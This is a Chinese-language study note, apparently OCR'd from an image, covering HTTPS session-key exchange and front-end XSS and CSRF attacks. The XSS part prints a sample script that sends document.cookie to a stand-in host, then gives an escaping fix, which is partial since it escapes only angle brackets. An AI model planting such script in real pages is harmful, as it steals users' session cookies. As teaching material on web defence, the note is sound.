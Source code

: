 生成会话密钥

- 客户端生成随机数 Pre-master secret
- 使用服务器公钥加密 Pre-master secret
- 客户端和服务器都通过三个随机数生成会话密钥
  (Client Random + Server Random + Pre-master secret)

开始加密通信

- 双方使用会话密钥进行对称加密通信
- 保证通信内容的机密性和完整性

特点：

- 采用混合加密：非对称加密传输密钥，对称加密传输数据
- 数字证书保证服务器身份可信
- 具有防篡改和不可否认性

## 前端攻击

#### XSS

Cross Site Scripting 跨站脚本攻击

用户通过某种方式（如输入框、文本编辑器）输入一些内容，其中带有攻击代码（JS 代码）。<br>
该内容再显示时，这些代码也将会被执行，形成了攻击效果。

```html
<!-- 例如用户提交的内容中有： -->
<script>
    var img = document.createElement('img')
    img.src = 'http://xxx.com/api/xxx?userInfo=' + document.cookie // 将 cookie 提交到自己的服务器
</script>
```

最简单的解决方式：替换特殊字符

```js
const newStr = str.replaceAll('<', '&lt;').replaceAll('>', '&gt;')
```

也可以使用第三方工具，例如
- https://www.npmjs.com/package/xss
- https://www.npmjs.com/package/escape-html

现代框架默认会屏蔽 XSS 攻击，除非自己手动开启
- Vue `v-html`
- React `dangerouslySetInnerHTML`

#### CSRF

Cross-site request forgery 跨站请求伪造

请看下面的故事
- 小明登录了 Gmail 邮箱，收到一封广告邮件 “转让比特币，只要 998”
- 小明抱着好奇的心态点开看了看，发现是个空白页面，就关闭了

但此时，攻击已经完成了。黑客在这个空白页面设置了 js 代码，会让小明的邮件都转发到 `hacker@hackermail.com` 。<br>
因为小明已经登录了 Gmail ，有了 Gmail 的 cookie 。所以再去请求 Gmail API 就会带着 cookie ，就有可能成功。
